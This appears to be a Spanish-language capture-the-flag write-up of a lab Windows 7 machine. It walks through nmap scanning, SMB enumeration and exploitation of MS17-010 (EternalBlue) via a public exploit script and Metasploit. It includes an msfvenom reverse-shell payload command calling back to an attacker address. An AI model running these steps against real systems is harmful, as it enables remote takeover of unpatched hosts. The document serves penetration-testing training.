

Enumeración
Escaneo de puertos:
nmap -p- --open --min-rate 5000 -vvv -sS 10.10.10.40
Completed SYN Stealth Scan at 20:25, 17.75s elapsed (65535 total ports)
Nmap scan report for 10.10.10.40
Host is up, received echo-reply ttl 127 (0.26s latency).
Scanned at 2024-05-24 20:25:01 -03 for 18s
Not shown: 65460 closed tcp ports (reset), 66 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE REASON
135/tcp open msrpc syn-ack ttl 127
139/tcp open netbios-ssn syn-ack ttl 127
445/tcp open microsoft-ds syn-ack ttl 127
49152/tcp open unknown syn-ack ttl 127
49153/tcp open unknown syn-ack ttl 127
49154/tcp open unknown syn-ack ttl 127
49155/tcp open unknown syn-ack ttl 127
49156/tcp open unknown syn-ack ttl 127
49157/tcp open unknown syn-ack ttl 127
Detectamos versión y servicio de los puertos abiertos:
nmap -sCV -p135,139,445,49152,49153,49154,49155,49156,49157 10.10.10.40
Nmap scan report for 10.10.10.40
Host is up (0.28s latency).
PORT STATE SERVICE VERSION
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open msrpc Microsoft Windows RPC
49153/tcp open msrpc Microsoft Windows RPC
49154/tcp open msrpc Microsoft Windows RPC
49155/tcp open msrpc Microsoft Windows RPC
49156/tcp open msrpc Microsoft Windows RPC
49157/tcp open msrpc Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb-os-discovery:
| OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
| OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
| Computer name: haris-PC
| NetBIOS computer name: HARIS-PC\x00
| Workgroup: WORKGROUP\x00
|_ System time: 2024-05-25T00:30:09+01:00
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
|_clock-skew: mean: -19m57s, deviation: 34m35s, median: 0s
| smb2-security-mode:
| 2:1:0:
|_ Message signing enabled but not required
| smb2-time:
| date: 2024-05-24T23:30:06
|_ start_date: 2024-05-24T20:52:34
Servicio SMB
Nos conectamos al puerto 445 a través de smbmap utilizando una NULL session. Vemos que tenemos permisos de READ ONLY sobre dos recursos. Intentamos listar el contenido con smbclient, pero no vemos nada relevante:
smbmap -H 10.10.10.40 -u 'null'
smbclient //10.10.10.40/Users -N
Realizaremos una búsqueda de vulnerabilidas utilizando los scripts de nmap:
nmap --script 'vuln and safe' -p445 10.10.10.40
Nmap scan report for 10.10.10.40
Host is up (0.34s latency).
PORT STATE SERVICE
445/tcp open microsoft-ds
Host script results:
| smb-vuln-ms17-010:
| VULNERABLE:
| Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
| State: VULNERABLE
| IDs: CVE:CVE-2017-0143
| Risk factor: HIGH
| A critical remote code execution vulnerability exists in Microsoft SMBv1
| servers (ms17-010).
|
| Disclosure date: 2017-03-14
| References:
| https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
| https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_ https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
Es vulnerable a MS17-010, una vulnerabilidad en el protocolo SMBv1, por lo que podemos utilizar el conocido exploit EternalBlue.
Explotación manual
Nos vamos a clonar el siguiente repositorio: https://github.com/worawit/MS17-010
Inicialmente, usaremos el script checker.py para validar nuevamente si es vulnerable. Es importante tener en cuenta que es un script antiguo y está desarrollado en python2. Al principio, tenemos el siguiente error:
Para resolver esto, vamos a modificar el script y especificar el usuario guest:
Lo corremos nuevamente y ahora si vemos el status de los named pipes. Estos juegan un papel importante porque SMB permite acceder y manejar named pipes como parte de sus funcionalidades. El exploit utiliza named pipes específicos para realizar operaciones posteriores a la explotación inicial, por lo tanto, si tenemos un OK en alguno de los listados, tenemos una vía potencial de ejecutar comandos en el sistema.
Antes de continuar, generaremos un payload con msfvenom:
msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.14.102 LPORT=443 -o eternal-blue.exe
Ahora, modificaremos el contenido del exploit zzz_exploit.py. Por un lado, especificaremos nuevamente el usuario guest, y por otro, modificaremos las siguientes líneas:

A priori, crea un archivo pwned.txt pero esto no nos interesa. Tras estos cambios, lo que hará será enviar nuestro payload a la máquina víctima, lo guardará en el disco C: y luego lo ejecutará.
Antes de correr el exploit, nos ponemos a la escucha en el puerto 443, que es el que especificamos como LPORT.
Luego, lo ejecutamos de la siguiente manera. En este caso, especificamos el name piped lsarpc:
pyhon2 zzz.exploit.py 10.10.10.40 lsarpc
Recibimos la Reverse Shell:
Explotación a través de MSF
Con Metasploit, podemos utlizar el módulo windows/smb/ms17_010_eternalblue. Obtendremos una sesión de Meterpreter como NT AUTHORITY\SYSTEM:
Como tenemos los máximos privilegios, podemos leer ambas flags: